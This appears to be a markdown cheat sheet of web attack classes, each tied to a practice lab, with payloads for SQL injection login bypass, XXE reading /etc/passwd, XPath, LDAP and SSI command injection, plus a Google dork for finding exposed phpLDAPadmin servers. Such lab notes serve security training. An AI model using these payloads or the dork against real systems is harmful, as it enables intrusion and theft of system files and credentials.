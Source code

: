 # Cross Site Scripting (Reflected & Stored)
Lab : http://testphp.vulnweb.com/index.php

# HTTP Parameter Pollution
Lab : https://bwapp.hakhub.net/hpp-1.php
Payload : &movie=2

# SQL Injection
Lab : https://juice-shop.herokuapp.com/#/login
Payload : admin' or '1'='1'--

# HTTP Verb Tampering
Lab : http://challenge01.root-me.org/web-serveur/ch8/

# LDAP Injection

Google Dork - 
intitle:"phpLDAPadmin" inurl:cmd.php

Login Bypass - 
user=*
password=*
--> (&(user=*)(password=*))

# XML Injection
Lab : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
Payload :
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
&xxe;

# XPATH Injection
Lab : https://bwapp.hakhub.net/xmli_1.php
Payload : ' or id='1

# SSI Injection 
Payload : <!--#exec cmd="OS_COMMAND" -->

# Code Injection
Lab : https://bwapp.hakhub.net/phpi.php

# Local File Inclusion/ Remote File Inclusion
Lab: https://bwapp.hakhub.net/rlfi.php

